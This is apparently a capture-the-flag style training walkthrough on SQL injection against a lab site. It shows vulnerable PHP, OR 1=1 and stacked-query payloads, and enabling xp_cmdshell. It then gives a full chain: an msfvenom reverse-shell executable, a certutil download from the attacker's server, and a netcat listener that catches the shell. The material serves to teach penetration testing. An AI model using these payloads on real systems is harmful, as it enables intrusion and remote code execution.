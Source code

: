 # SQL Injection

Taking in user-supplied input gives us powerful ways to create dynamic content, but failing to secure this input correctly can expose a critical vulnerability known as SQL injection (SQLi). SQL injection is an attack technique that exploits how web applications handle user input, particularly in SQL queries. Instead of providing legitimate input (like the ornament colour in the example above), the attacker injects malicious SQL statements into a web application's input fields or parameters. The application's database server then executes this rogue SQL query.

consider our previous PHP code for fetching user input to search for ornament colours:

```php
// Retrieve the GET parameter and save it as a variable
$colour = $_GET['colour'];

// Execute an SQL query with the user-supplied variable
$query = "SELECT * FROM tbl_ornaments WHERE colour = '$colour'";
$result = sqlsrv_query($conn, $query);
```

Without adequate security measures, an attacker could manipulate the "colour" parameter to execute malicious SQL queries. For instance, instead of searching for a benign colour, they might input `' OR 1=1 --` as the input parameter, which would transform the query into:

![44e582e3f4acbede1d1e86f189c23630.png](../../_resources/44e582e3f4acbede1d1e86f189c23630.png)

## Caution Around OR 1=1

It's crucial to emphasise the potential risks of using the `OR 1=1` payload. While commonly used for illustration, injecting it without caution can lead to unintended havoc on a database. When injecting `OR 1=1` into a query, the intention is typically to bypass authentication or to return all items in a table by making the condition always true. However, the risks lie in that you might not be aware of the context and scope of the query you're injecting into. Additionally, applications may sometimes use values from an initial request in multiple SQL queries. SQL injection payloads that return all rows can lead to unintended consequences when injected into different types of statements, such as UPDATE or DELETE.

Imagine injecting it into a query that updates a specific user's information. An `OR 1=1` payload would make the condition true for every row, leading to a mass update affecting all records (users) in the table. This lack of specificity in the payload makes it a risky choice for penetration testers who might inadvertently cause significant data loss or alterations. A safer example would be a more targeted condition based on a known attribute identifying the record you want to manipulate. For instance, `bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This still demonstrates the SQL injection vulnerability without putting the entire table's records at risk.

## Stacked Queries

SQL injection attacks can come in various forms. A technique that often gives an attacker a lot of control is known as a "stacked query". Stacked queries enable attackers to terminate the original (intended) query and execute additional SQL statements in a single injection, potentially leading to more severe consequences such as data modification and calls to stored procedures or functions.

In SQL, the semicolon typically signifies one statement's conclusion and another's commencement. This feature facilitates the execution of multiple SQL statements within a single interaction with the database server. It's important to note that certain web application technologies and database management systems (DBMS) may demand different syntax or lack support for stacked queries. Consequently, enumeration is essential for precision when conducting injection attacks.

Suppose our attacker in the previous example wants to go beyond just retrieving all rows and intends to insert some malicious data into the database. They can modify the previous injection payload to this:

`' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --`  
When the web application processes this input, here's the resulting query the database would execute:

`SELECT * FROM tbl_ornaments WHERE colour = '' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --'`

## Test

To test the input fields, we can submit characters like single quotes (') and double quotes ("), as these are special characters that attackers use to manipulate SQL queries. We might be able to trigger error messages by introducing possible syntax errors in the query and prove that the input is unsanitised as it reaches the back end.

The error we receive is a huge breakthrough, as it gives us many details on the underlying database management system powering this website and confirms that the user input is unsanitised.

Error message enumeration is critical to SQL injection testing because it equips attackers with valuable information for crafting more precise and effective attack payloads. Because of this, it's always essential to monitor and sanitise error messages to prevent sensitive information from leaking.

## xp_cmdshell

xp_cmdshell is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. While it can be a powerful administrative tool, it can also be a security risk if not used cautiously when enabled.

Because of the known risks involved, it's recommended that this functionality is disabled on production servers (and is by default). However, due to misconfigurations and legacy applications that require it, it's common to see it enabled in the wild. For example, suppose you have an HR management system that needs to export data periodically to a CSV file and upload it to an external server. Instead of using more secure and modern methods like SQL Server Integration Services (SSIS) or custom application code, legacy applications may have opted to rely on xp_cmdshell to execute system-level commands to export the data. While this accomplishes the same task, it poses security and maintainability risks and grants excessive system access to the SQL Server.

It is also possible to manually enable xp_cmdshell in SQL Server through EXECUTE (EXEC) queries. Still, it requires the database user to be a member of the sysadmin fixed server role or have the ALTER SETTINGS server-level permission to execute this command. However, as mentioned previously, misconfigurations that allow this execution are not too uncommon.

We can attempt to enable xp_cmdshell on the Best Festival Company database by stacking the following commands using the SQL injection we discovered:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
By injecting the above statements into SQL Server, we'll first enable advanced configuration options in SQL Server by setting show advanced options to 1. We then apply the change to the running configuration via the RECONFIGURE statement. Next, we enable the xp_cmdshell procedure by setting xp_cmdshell to 1 and applying the change to the running configuration again.

Converting these into a single stacked SQLi payload will look like this:

`http://10.10.25.141/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`
By requesting the URL with these parameters, we should be able to execute the stacked queries and enable the xp_cmdshell procedure. With this feature enabled, we can execute any Windows shell command through the EXECUTE (or EXEC) statement followed by the command name.

Unfortunately, one of the caveats to this approach is that it returns its results as rows of text. This means that, typically, the output will never be returned to the user since the injection no longer occurs in the original, intended query. Because of this, we are often in the dark as to whether our injection worked. But there are ways to validate whether or not our approach is working.

## MSFvenom
MSFvenom is a command-line payload generation tool. It's part of the Metasploit Framework, a widely used penetration testing and ethical hacking set of utilities. MSFvenom is explicitly designed for payload generation and can be used to generate a Windows executable that, when executed, will make a reverse shell connection back to our AttackBox. We can run the following command on a Kali machine (or the AttackBox):

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe`

You can obtain your IP address by running `ifconfig ens5 | grep -oP 'inet \K[\d.]+'` in your terminal.

It will take a moment to generate, but once complete, you will have created a reverse.exe Windows executable file that will establish a reverse TCP connection to your IP address over port 4444 when executed on the target.

With our payload created, we can set up a quick HTTP server on our AttackBox using Python to serve the file:
`python3 -m http.server 8000`

By running the above command, we will set up a lightweight web server on port 8000 that we can use to serve our payload. All the files in our current directory, including reverse.exe, will be served using this method and will be accessible for the Best Festival server to download.

It's time to use our stacked query to call xp_cmdshell and execute the certutil.exe command on the target to download our payload.

`http://10.10.25.141/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --`

The above SQL statement will call certutil to download the reverse.exe file from our Python HTTP server and save it to the Windows temp directory for later use. After requesting the above URL to execute the stacked query, we should immediately know if we were successful by checking the output of our HTTP server. There should be a request for reverse.exe:
```
└─$ python3 -m http.server 8000  	 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.25.141 - - [10/Dec/2023 14:20:59] "GET /reverse.exe HTTP/1.1" 200 -
```
Great progress! We've achieved remote code execution and now have our reverse shell payload on the target system. All we have to do now is set up a listener to catch the shell and then have the system execute the payload executable. To set up our listener, we can use the netcat utility on the AttackBox to listen on port 4444 (the same port we specified in our payload). Netcat is a versatile networking utility that can be used for reading from and writing to network connections.
`nc -lnvp 4444`

Now, we can run one final stacked query to execute the reverse.exe file we previously saved in the C:\Windows\Temp directory:
`http://10.10.25.141/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`

After requesting the above URL, return to your netcat listener terminal window. You should see that we caught the shell and made the connection!